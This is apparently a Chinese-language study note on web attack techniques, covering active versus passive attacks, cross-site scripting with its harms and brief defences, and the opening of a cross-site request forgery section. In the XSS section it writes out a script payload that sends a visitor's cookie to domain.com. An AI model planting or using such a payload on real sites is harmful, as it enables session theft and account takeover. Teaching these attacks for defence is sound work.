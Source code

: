 # 七、Web攻击技术

## 7.1 攻击模式

### 7.1.1 主动攻击

直接攻击服务器，具有代表性的有SQL注入和OS命令注入。

### 7.1.2 被动攻击

设下圈套，让用户发送有攻击代码的HTTP请求，用户会泄露cookie等个人信息，具有代表性的有跨站脚本攻击和跨站请求伪造。

## 7.2 跨站脚本攻击

### 7.2.1 概念

跨站脚本攻击（Cross-Site Scripting,XSS）,可以将代码注入到用户浏览的网页上，这种代码包括HTML和JavaScript。利用网页开发时留下的漏洞，通过巧妙地方法注入恶意指令代码到网页，是用户加载并执行攻击者恶意制造地网页程序。攻击成功后，攻击者可能得到更高地权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。

例如一个论坛网站，攻击者可以再上面发表一下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成一下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳往 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

### 7.2.2 危害

伪造虚假地输入表单骗取个人信息，窃取用户地cookie值，显示伪造地文章或图片。

### 7.2.3 防范手段

1. 过滤特殊字符。
2. 指定HTTP的`content-type`。

## 7.3 跨站点请求伪造

### 7.3.1 概念

跨站点请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了 Web 中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

XSS利用的时用户对指定网站的信任，CSRF利用的是网站对用户网页浏览器的信任。
